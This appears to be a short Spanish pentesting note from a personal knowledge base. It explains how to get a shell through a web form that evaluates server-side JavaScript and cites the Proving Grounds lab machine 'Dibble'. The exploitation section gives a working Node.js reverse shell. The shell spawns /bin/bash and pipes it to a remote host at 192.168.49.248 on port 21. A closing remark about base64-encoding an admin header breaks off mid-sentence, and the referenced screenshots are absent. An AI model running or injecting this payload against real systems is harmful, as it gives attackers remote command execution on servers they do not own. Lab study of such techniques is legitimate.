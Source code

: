 ## DESCRIPTION

Si encontramos un formulario que interpreta JavaScript pot ejemplo con una cuenta matematica:
![[Pasted image 20230617130026.png]]
Entonces podemos probar a introducir una reverse shell.

![[Pasted image 20230617130038.png]]

#### Mas información
* https://al1z4deh.medium.com/proving-grounds-dibble-e8b64c77a7fe


## EXPLOITATION

Reverse shell
```
(function(){  
var net = require(“net”),  
cp = require(“child_process”),  
sh = cp.spawn(“/bin/bash”, []);  
var client = new net.Socket();  
client.connect(21, “192.168.49.248”, function(){  
client.pipe(sh.stdin);  
sh.stdout.pipe(client);  
sh.stderr.pipe(client);  
});  
return /a/;  
})();
```


**!!NOTA IMPORTANTE!!** 
En el ejemplo anterior teniamos qeu cambiar una cabecera para el usuairo admin:

![[Pasted image 20230617130124.png]]

Teniamos que camputara la petcion y codificar admin en base64 y ur

## MACHINES

* Hack The Box: 
* PG: Dibbles

**!!NOTA IMPORTANTE!!** 